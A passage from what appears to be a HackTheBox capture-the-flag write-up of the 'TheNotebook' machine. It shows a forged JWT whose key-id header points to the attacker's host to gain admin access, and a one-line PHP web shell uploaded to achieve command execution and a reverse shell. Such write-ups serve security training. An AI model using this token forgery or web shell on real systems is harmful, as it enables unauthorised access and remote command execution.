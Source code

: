 ```
eyJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yMC9rZXkua2V5In0.eyJ1c2VybmFtZSI6IjB4NHJ0M21pcyIsImVtYWlsIjoiMHg0cnQzbWlzQGVtYWlsLmNvbSIsImFkbWluX2NhcCI6MX0.hV_wwhUpfW08GprUth6sPaI2Wi799ouFPyRI0F4IBggcN1dEE3J7HKnThY2tlDD45iwIgMwDlMDvtNVjLcsGtiZrALBEK5GOpR8b-58W03CJwQuv6mz00AnsAuip8rivgdQzrzmb4WvvCTMr1lZlgrmsw4Y2o5CEJRXfPkWHLFSI5qIGxQVgvV5slEF5T_b5pbrVLsaj7oBhhQgn33HgAZzU5pQbn8a4Y8K1npZSL60AVRj_EtlmBa8OmvyJ4UwAU7uXwtT-D4rQNqjsKpODn42ThyoC686b-G3QsXBhjsfhmK5IZ0ftVQzv6pZ_E6x822xWxZk-0fq8yKgThy8Smw
```

On 1 we enter on /admin (it can be found with gobuster or manually)

On 2 we change our cookie to the cookie we made

On 3, when we hit F5 it come to our box and download the key.key, and give me admin access

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2003:34:35.png)

## WebShell

We see the `/admin/notes` folder and got some hints

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2003:39:56.png)

PHP files being executed! Great!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2003:40:08.png)

Possibly a user, noah

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2003:40:57.png)

So, we go to the upload file page

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2003:41:21.png)

Because the site told me it's executing php files, I'll upload a simple php cmd

```php
<?php system($_REQUEST["cmd"]); ?>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2003:43:21.png)

It get uploaded with a different name

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2008:31:11.png)

But works also

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2008:31:25.png)

So, we have code execution, and a reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2008:35:20.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2008:35:26.png)
